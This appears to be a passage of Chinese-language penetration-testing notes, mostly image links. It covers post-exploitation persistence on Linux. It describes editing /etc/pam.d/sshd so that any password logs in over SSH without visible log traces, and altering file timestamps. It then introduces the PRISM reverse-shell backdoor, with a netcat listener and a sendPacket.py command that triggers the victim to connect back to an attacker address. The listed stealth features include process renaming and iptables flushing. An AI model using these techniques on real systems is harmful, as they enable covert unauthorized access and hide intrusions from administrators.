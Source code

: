 ![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/ac34091295b5c94eeb4f89c13be53ed0.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/5bb590278d263db7fc667a4628a9141d.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/006eae4c3141c8b60bef2fba96a971da.png)

修改更改时间:

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/6d94ec2734aa42f64d2299636a320222.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/f9169c5d57bf7913c7e8900d528f3338.png)

直接修改/etc/pam.d/sshd文件，输入任意密码即可登录，不再执行pam_unix.so(日志正常)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/166a14ceea3a53ab8e297cc1ba675457.png)

输入任意字符即可登录:

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/13ba2ee3e93fdf3b422ab902da8c0c2f.png)

**PRISM后门(需root权限)**

PRISM is an user space stealth reverse shell backdoor, written in pure C.

PRISM can works in two different ways: **ICMP** and **STATIC** mode.

ICMP mode:

**nc -l -p 6666**

**./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666**

192.168.0.1 is the victim machine running prism backdoor

p4ssw0rd is the key

192.168.0.10 is the attacker machine address

6666 is the attacker machine port

STATIC mode:

nc -l -p [PORT]

Features:

>   Two operating modes (ICMP and STATIC)

>   Runtime process renaming

>   No listening ports

>   Automatic iptables rules flushing

>   Written in pure C

>   No library dependencies

Configuration
